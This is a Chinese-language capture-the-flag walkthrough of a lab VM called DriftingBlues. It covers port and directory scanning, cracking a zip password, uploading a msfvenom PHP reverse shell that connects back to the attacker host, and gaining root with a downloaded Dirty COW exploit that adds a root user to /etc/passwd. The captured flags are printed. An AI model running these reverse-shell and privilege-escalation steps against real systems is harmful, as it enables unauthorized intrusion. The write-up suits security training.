






# 信息搜集

主机发现

```
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.0033s latency).
MAC Address: 08:00:27:F6:BB:79 (Oracle VirtualBox virtual NIC)

```
端口扫描

```
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 23:53 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.000069s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:F6:BB:79 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p80 192.168.21.8         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 23:55 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
MAC Address: 08:00:27:F6:BB:79 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds

```
# 漏洞利用

目录扫描

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.8 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer              (Status: 200) [Size: 179]
/server-status        (Status: 403) [Size: 293]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```
看一下都有什么






让添加zip扩展名

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.8 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer.zip          (Status: 200) [Size: 179]
/spammer              (Status: 200) [Size: 179]
/server-status        (Status: 403) [Size: 293]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================

```
访问/spammer也会下载压缩包


爆破

```
┌──(kali㉿kali)-[~]
└─$ zip2john spammer.zip > spammer.txt
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt spammer.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)     
1g 0:00:00:00 DONE (2025-03-10 00:26) 100.0g/s 2457Kp/s 2457Kc/s 2457KC/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```
解压一下看看有什么



用账号密码登录一下刚才扫出来的登录页面



能上传文件，上传个反弹shell看看



```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.21.13 lport=4444 -f raw > webshell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes

```
传上去了，在/textpattern/files访问一下

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                    
listening on [any] 4444 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.8] 43169
bash: no job control in this shell
www-data@driftingblues:/var/www/textpattern/files$ 

```
# 提权

查一下有没有漏洞

```
www-data@driftingblues:/var/www/textpattern/files$ uname -a
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux

```



提权

```
┌──(kali㉿kali)-[~]
└─$ wget https://www.exploit-db.com/download/40839
--2025-03-10 00:52:17--  https://www.exploit-db.com/download/40839
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [application/txt]
Saving to: ‘40839’

40839           100%[=======>]   4.89K  --.-KB/s    in 0s      

2025-03-10 00:52:18 (147 MB/s) - ‘40839’ saved [5006/5006]
                                                            
┌──(kali㉿kali)-[~]
└─$ mv 40839 exp.c
www-data@driftingblues:/var/www/textpattern/files$ mv exp.c /tmp/exp.c
mv exp.c /tmp/exp.c
www-data@driftingblues:/var/www/textpattern/files$ cd /tmp
cd /tmp
www-data@driftingblues:/tmp$ ls
ls
exp.c
www-data@driftingblues:/tmp$ chmod +x exp
chmod +x exp
www-data@driftingblues:/tmp$ ./exp
./exp
Please enter the new password:     
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: 7f8f70460000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: 7f8f70460000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@driftingblues:/tmp$ ls
ls
exp
exp.c
passwd.bak
www-data@driftingblues:/tmp$ su root
su root
su: must be run from a terminal
www-data@driftingblues:/tmp$ python -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"
www-data@driftingblues:/tmp$ su root
su root
No passwd entry for user 'root'
www-data@driftingblues:/tmp$ su
su
Password: 
firefart@driftingblues:/tmp# whoami
whoami
firefart
firefart@driftingblues:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)

```
user.txt，root.txt

```
firefart@driftingblues:/tmp# cd /root
cd /root
firefart@driftingblues:~# ls 
ls 
root.txt  user.txt
firefart@driftingblues:~# cat user.txt
cat user.txt
5355B03AF00225CFB210AE9CA8931E51
firefart@driftingblues:~# cat root.txt
cat root.txt
CCAD89B795EE7BCF7BBAD5A46F40F488
firefart@driftingblues:~# 

```
